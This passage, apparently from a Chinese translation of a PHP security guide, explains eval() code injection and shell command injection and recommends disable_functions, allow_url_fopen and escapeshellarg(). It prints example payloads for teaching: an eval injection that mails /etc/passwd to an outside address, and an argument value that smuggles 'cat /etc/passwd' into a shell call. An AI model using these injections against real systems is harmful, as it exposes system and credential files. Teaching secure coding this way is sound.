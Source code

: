此页面从表单中获取一些任意的 PHP 代码，并将其作为脚本的一部分运行。运行的代码可以访问所有的全局变量，并以脚本相同的权限运行。不难理解为什么这是一个问题。在表单中输入以下内容：

```php
include("/etc/passwd");
```

绝不要这样做。确保这样的脚本永远不会安全是不可能的。

你可以通过在*php.ini*中的`disable_functions`配置选项中列出它们来全局禁用特定的函数调用，用逗号分隔。例如，你可能永远不需要`system()`函数，因此可以完全禁用它：

```php
disable_functions = system
```

这并不会让`eval()`更安全，因为没有办法阻止重要变量被更改，也不能防止诸如`echo()`这样的内置结构被调用。

在`include`、`require`、`include_once`和`require_once`的情况下，最好的方法是使用`allow_url_fopen`关闭远程文件访问。

在使用`preg_replace()`的`eval()`和`/e`选项时，特别是在调用中使用了任何用户输入的数据时，是很危险的。考虑以下情况：

```php
eval("2 + {$userInput}");
```

这似乎相当无害。但是，假设用户输入以下值：

```php
2; mail("l33t@somewhere.com", "Some passwords", "/bin/cat /etc/passwd");
```

在这种情况下，将同时执行预期的命令和你希望避免的命令。唯一可行的解决方案是永远不要将用户提供的数据传递给`eval()`。

## Shell 命令的弱点

在你的代码中要非常谨慎使用`exec()`、`system()`、`passthru()`和`popen()`函数以及反引号操作符（`` ` ``）。shell 是一个问题，因为它识别特殊字符（例如，分号用于分隔命令）。例如，假设你的脚本包含以下行：

```php
system("ls {$directory}");
```

如果用户将`"/tmp;cat /etc/passwd"`作为`$directory`参数传递，因为`system()`执行以下命令，你的密码文件会被显示：

```php
ls /tmp;cat /etc/passwd
```

在必须将用户提供的参数传递给 shell 命令时，使用`escapeshellarg()`来转义字符串中具有特殊含义的序列：

```php
$cleanedArg = escapeshellarg($directory);
system("ls {$cleanedArg}");
```

现在，如果用户传递`"/tmp;cat /etc/passwd"`，实际运行的命令是：

```php
ls '/tmp;cat /etc/passwd'
```

避免使用 shell 的最简单方法是在 PHP 代码中完成你想要调用的任何程序的工作，而不是调用 shell。内置函数可能比涉及 shell 的任何内容更安全。

## 数据加密问题
